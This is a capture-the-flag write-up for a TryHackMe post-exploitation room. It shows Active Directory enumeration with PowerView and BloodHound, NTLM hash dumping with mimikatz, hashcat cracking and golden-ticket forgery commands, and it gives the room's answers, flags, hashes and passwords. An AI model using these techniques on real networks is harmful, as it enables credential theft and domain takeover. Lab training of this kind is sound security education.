 ![Post-Exploitation Basics Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/postexploit/Post_Exploitation_Basics_Cover.png" alt="Post-Exploitation Basics Logo">
</p>

# Post-Exploitation Basics

This guide contains the answer and steps necessary to get to them for the [Post-Exploitation Basics](https://tryhackme.com/room/postexploit) room.

## Table of contents

- [Enumeration w/ Powerview](#enumeration-w-powerview)
- [Enumeration w/ Bloodhound](#enumeration-w-bloodhound)
- [Dumping hashes w/ mimikatz](#dumping-hashes-w-mimikatz)
- [Golden Ticket Attacks w/ mimikatz](#golden-ticket-attacks-w-mimikatz)
- [Enumeration w/ Server Manager](#enumeration-w-server-manager)
- [Maintaining Access ](#maintaining-access)

### Enumeration w/ Powerview

These questions were a bit difficult as there was no single point of information to use. Multiple posts had different commands, some of which wouldn't work. Some were not listed on each site.

1. What is the shared folder that is not set by default?

   For this I found two commands that could be of use.

   ```cmd
   Get-NetShare

   Invoke-ShareFinder
   ```

   Both would give the attached shared folders. The one without a description is most likely not default.

   POWERVIEW SHARED

   ><details><summary>Click for answer</summary>Share</details>

3. What operating system is running inside of the network besides Windows Server 2019?

   The command that could help with this is `Get-NetComputer`. This would only return a long list of data when used with `-FullData`. Now all we need to do is filter on the operating system as done in the example.

   ```cmd
   Get-NetComputer -FullData | select operatingsystem
   ```

   POWERVIEW OPERATING

   ><details><summary>Click for answer</summary>Windows 10 Enterprise Evaluation</details>

5. I've hidden a flag inside of the users find it

   For this we can actually use the same command as in the example to view the common name (cn) of the user.

   ```cmd
   Get-NetUser | select cn
   ```

   POWERVIEW FLAG

   ><details><summary>Click for answer</summary>POST{P0W3RV13W_FTW}</details>

### Enumeration w/ Bloodhound

To get the necessary data we follow the steps provided. Make sure to use a newer version of the SharpHound.ps1 file. The provided one is incompatible with the latest Bloodhound version. The version in the bloodhound folder works fine.

We copy it to the machine using scp over ssh:

```cmd
scp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 Administrator:10.10.27.24:C:/Users/Administrator/Downloads/SharpHound.ps1
```

Now we can run the script and copy the loot back to our machine.

```cmd
. .\SharpHound.ps1

Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

```cmd
scp Administrator:10.10.27.24:C:/Users/Administrator/Downloads/loot.zip loot.zip
```

Now we can import it into Bloodhound.

1. What service is also a domain admin

   For this we use the query: "Find all Domain Admins".

   BLOODHOUND DOMAIN ADMINS

   ><details><summary>Click for answer</summary>SQLSERVICE</details>

3. What two users are Kerberoastable?

   For this we can use the query: "List all Kerberoastable Accounts".

   BLOODHOUND KERBEROASTABLE

   ><details><summary>Click for answer</summary>SQLSERVICE, KRBTGT</details>

### Dumping hashes w/ mimikatz



misc::cmd

After connecting through ssh or rdp we must start mimikatz and give it admin privileges using `privilege:debug`.

1. what is the Machine1 Password?

   Now we can use lsadump to dump the required NTLM hashes.

   ```cmd
   lsadump::lsa /patch
   ```

   MIMIKATZ HASHES HASHES

   Using hashcat, we can crack the hash for the Machine1 user.

   ```cmd
   hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
   ```

   MIMIKATZ HASHES PASSWORD

   Remember to use the correct hash type in hashcat. If you don't remember, you can use `hashcat -h | grep NTLM` to look for the correct type for NTLM hashes.   

   ><details><summary>Click for answer</summary>Password1</details>

3. What is the Machine2 Hash?

   This hash can be found in the list of hashes dumped by `lsadump`.
   
   ><details><summary>Click for answer</summary>c39f2beb3d2ec06a62cb887fb391dee0</details>

### Golden Ticket Attacks w/ mimikatz

To create a golden ticket, we must first get more information about the krbtgt user.

```cmd
lsadump::lsa /inject /name:krbtgt
```

This should give us what we need to craft a ticket.

GOLDEN INFO

To generate a a golden ticket we need the following:

- user
- sid
- id
- domain
- krbtgt (NTLM hash)
- 

Combining these from the image above, gives us the following command:

```cmd
kerberos::golden /domain:CONTROLLER.local /user:krbtgt /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:502 
```

GOLDEN TICKET

Now we can use this to open a command window on the system with which we have access to other systems as well.

```cmd
misc::cmd
```

GOLDEN NETWORK

Unfortunately, no other systems are configured in this room, so you will need to take my word for it.

### Enumeration w/ Server Manager

1. What tool allows to view the event logs?

   Looking at the various tool available to us, one seems to be a logical choice.

   SERVER EVENTS

   ><details><summary>Click for answer</summary>Event Viewer</details>

3. What is the SQL Service password

   Using the 'Active Directory Users and Computers' tool, we can see a password stored in the description after navigating to the users tab.

   SERVER PASSWORD

   ><details><summary>Click for answer</summary>MYpassword123#</details>
